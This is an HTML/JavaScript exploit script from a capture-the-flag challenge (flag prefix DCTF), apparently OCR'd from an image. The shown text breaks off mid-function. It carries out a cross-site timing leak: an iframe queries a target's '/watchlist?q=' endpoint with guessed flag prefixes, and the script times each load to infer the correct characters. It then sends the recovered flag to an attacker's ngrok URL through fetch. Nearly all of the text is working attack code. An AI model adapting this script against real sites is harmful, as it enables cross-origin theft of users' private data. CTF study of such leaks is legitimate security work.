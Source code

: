 ```html
<script>
    let correct_guess = true;
    const sleep = (ms) => new Promise((resolve) => setTimeout(resolve, ms));
    const hash = window.location.hash?.slice(1) || "0|DCTF{";
    const currentflag = hash.split("|")[1] || "DCTF{";
    let idx = hash.split("|")[0] || "0";
    try {
      idx = parseInt(idx);
    } catch {
      idx = 0;
    }
    const chars = "abcdefghijklmnopqrstuvwxyz}_-!@|:<>?-=[]\;',./{_";
    let current_char = chars[idx];
    const next = async (time, currentflag, current_char, idx) => {
      await sleep(100);
      window.open(
        `/leak?time=${time}&flag=${currentflag}&current_char=${current_char}#${idx}|${currentflag}`
      );
      window.close();
    };
    const show = async (time, currentflag, current_char, idx) => {
      await sleep(100);
      window.open(
        `/show?time=${time}&flag=${currentflag}&current_char=${current_char}(${idx})#${idx}|${currentflag}`
      );
    };
    const leak = async () => {
      let loaded = false;
      let checkiframe = document.createElement("iframe");
      checkiframe.src =
        "{{target_url}}/watchlist?q=" + currentflag + current_char;
      checkiframe.onload = () => {
        loaded = true;
        let time = performance.now() - start;
        show(time, currentflag, current_char, idx);
        if (time < 40) {
          correct_guess = false;
        }
      };
      let start = performance.now();
      document.body.appendChild(checkiframe);
      while (!loaded) {
        await sleep(100);
      }
    };

    const main = async () => {
      for (i = 0; i < 5; i++) {
        await leak();
        await sleep(950); // needed to slow down requests and make the timing stable
        if (!correct_guess) {
          break;
        }
      }
      if (correct_guess) {
        await fetch("{{ngrok_url}}?flag=" + currentflag, {
          mode: "no-cors",
        });
        next(0, currentflag + current_char, current_char, 0);
      } else {
        next(0, currentflag, current_char, idx + 1);
      }
```